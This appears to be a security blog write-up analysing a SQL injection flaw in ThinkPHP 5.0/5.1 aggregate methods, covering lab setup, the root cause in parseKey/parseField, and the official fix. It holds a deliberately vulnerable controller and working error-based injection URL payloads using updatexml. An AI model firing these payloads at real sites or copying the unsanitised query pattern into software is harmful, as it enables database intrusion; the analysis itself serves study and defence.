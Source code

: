 # ThinkPHP5 SQL Injection

Author: H3rmesk1t

Data: 2021.08.14

# Vulnerability Summary
- This vulnerability exists in all `Mysql` aggregation function related methods. Since the program does not filter the data well, it directly splices the data into SQL statements, which ultimately leads to the occurrence of SQL injection vulnerability.
- Vulnerability impact version: 5.0.0<=ThinkPHP<=5.0.21, 5.1.3<=ThinkPHP5<=5.1.25

# Initial configuration
Get the test environment code

```bash
composer create-project --prefer-dist topthink/think=5.1 tpH3rmesk1t
```
![Insert the picture description here](https://img-blog.csdnimg.cn/ad95b5b9781f4b9fabccb2dbae673760.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

Set the require field of the composer.json file to the following

````bas
"require": {
    "php": ">=5.6.0",
    "topthink/framework": "5.1.7"
}
```

Then execute `composer update`

![Insert the picture description here](https://img-blog.csdnimg.cn/344ef95318c342f1914da5e9a4f90185.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

- In the downloaded source code, the content of `application/index/controller/Index.php` needs to be modified

```php
<?php
namespace app\index\controller;

class Index
{
    public function index()
    {
        $options = request()->get('options');
        $result = db('users')->max($options);
        var_dump($result);
        return '<style type="text/css">*{ padding: 0; margin: 0; } div{ padding: 4px 48px;} a{color:#2E5CD5;cursor: pointer;text-decoration: none} a:hover{text-decoration:underline; } body{ background: #fff; font-family: "Century Gothic","Microsoft yahei"; color: #333;font-size:18px;} h1{ font-size: 100px; font-weight: normal; margin-bottom: 12px; } p{ line-height: 1.6em; font-size: 42px }</style><div style="padding: 24px 48px;"<h1>:) </h1><pThinkPHP V5.1<br/><span style="font-size:30px">12 years of original intention remains unchanged (2006-2018) - Your trustworthy PHP framework</span></p></div><script type="text/javascript" src="https://tajs.qq.com/stats?sId=64890268" charset="UTF-8"></script><script type="text/javascript" src="https://e.topthink.com/Public/static/client.js"></script><think id="eab4b9f840753f8e7"></think>';
    }
}
```

Configure database-related information in the `config/database.php` file, and enable app_debug and app_trace in `config/app.php`. Create database information as follows

```php
create database thinkphp;
use thinkphp;
create table users(
	id int primary key auto_increment,
	username varchar(50) not null,
);
insert into users(id,username) values(1,'H3rmesk1t');
```
# Vulnerability Exploit

Payload

````bas
5.0.0~5.0.21, 5.1.3~5.1.10
http://127.0.0.1/cms/public/index.php?options=id)%2bupdatexml(1,concat(0x7,user(),0x7e),1) from users%23
5.1.11～5.1.25
http://127.0.0.1/cms/public/index.php?options=id`)%2bupdatexml(1,concat(0x7,user(),0x7e),1) from users%23
```
![Insert the picture description here](https://img-blog.csdnimg.cn/eb88c5392a2745b98f180ba3d5d012ad.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)
# Vulnerability Analysis

The user-controllable data has not been filtered. The `max` method of the `Query` class is passed in for aggregate query statement construction, and then the `aggregate` method of this class is called. This vulnerability problem occurs in the underlying code of the function, so all the aggregate methods that call this method have SQL injection problems. We see that the `aggregate` method calls the `aggregate` method of the `Mysql` class. In this method, we can clearly see that the program splices the user-controllable variable `$field` with the SQL statement after processing the `parseKey` method.

The other processes are similar to the previous analysis. For details, please take a look at the `parseKey` method.

![Insert the picture description here](https://img-blog.csdnimg.cn/e20d6659c1eb403c80289a864e0ff5ff.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

The `parseKey` method mainly processes field and table names. Here we just add backticks to both ends of our data. After the `parseKey` method is processed, the program returns to the `$this->value()` method in the figure above. This method will call the `select` method of the `Builder` class to construct SQL statements. This method should be said to be very common when analyzing ThinkPHP vulnerabilities. It is nothing more than using the `str_replace` method to replace the variables into the SQL statement template. Here we focus on the `parseField` method, because user-controllable data is stored in the `$options['field']` variable and passed into the method.

![Insert the picture description here](https://img-blog.csdnimg.cn/35601821d47a44b98695c4cc5a8b4ac0.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

Entering the `parseField` method, we found that the user-controllable data is only processed by the `parseKey` method, and does not affect the data. Then it is spliced ​​with commas and finally replaced directly into the SQL statement template, resulting in the occurrence of SQL injection vulnerability.

![Insert the image description here](https://img-blog.csdnimg.cn/a181aa72590b4399818ada6fa8b897df.png?x-oss-process=image/watermark,
type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)
# Vulnerability Fix

The official fix is: when matching characters other than letters, dots, and asterisks, an exception is thrown.

![Insert the picture description here](https://img-blog.csdnimg.cn/835bd07f790849cda255290687ec65b1.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)
# Attack summary

Refer to Master Mochazz's audit process

![Insert the picture description here](https://img-blog.csdnimg.cn/f4c78426789146f79568f3a6bfb5d9d3.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)